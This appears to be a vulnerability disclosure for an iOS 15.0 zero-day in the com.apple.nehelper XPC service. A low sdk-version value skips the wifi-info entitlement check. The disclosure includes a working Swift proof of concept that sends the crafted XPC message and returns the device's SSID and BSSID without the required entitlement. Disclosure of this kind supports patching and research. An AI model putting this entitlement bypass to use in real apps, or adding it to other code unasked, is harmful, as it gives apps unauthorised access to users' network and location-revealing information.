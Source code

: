 # Nehelper Wifi Info 0-day (iOS 15.0)

XPC endpoint `com.apple.nehelper` accepts user-supplied parameter `sdk-version`, and if its value is less than or equal to 524288, `com.apple.developer.networking.wifi-info` entiltlement check is skipped.
Ths makes it possible for any qualifying app (e.g. posessing location access authorization) to gain access to Wifi information without the required entitlement.
This happens in `-[NEHelperWiFiInfoManager checkIfEntitled:]` in `/usr/libexec/nehelper`.

```
func wifi_info() -> String? {
    let connection = xpc_connection_create_mach_service("com.apple.nehelper", nil, 2)
    xpc_connection_set_event_handler(connection, { _ in })
    xpc_connection_resume(connection)
    let xdict = xpc_dictionary_create(nil, nil, 0)
    xpc_dictionary_set_uint64(xdict, "delegate-class-id", 10)
    xpc_dictionary_set_uint64(xdict, "sdk-version", 1) // may be omitted entirely
    xpc_dictionary_set_string(xdict, "interface-name", "en0")
    let reply = xpc_connection_send_message_with_reply_sync(connection, xdict)
    if let result = xpc_dictionary_get_value(reply, "result-data") {
        let ssid = String(cString: xpc_dictionary_get_string(result, "SSID"))
        let bssid = String(cString: xpc_dictionary_get_string(result, "BSSID"))
        return "SSID: \(ssid)\nBSSID: \(bssid)"
    } else {
        return nil
    }
}
```
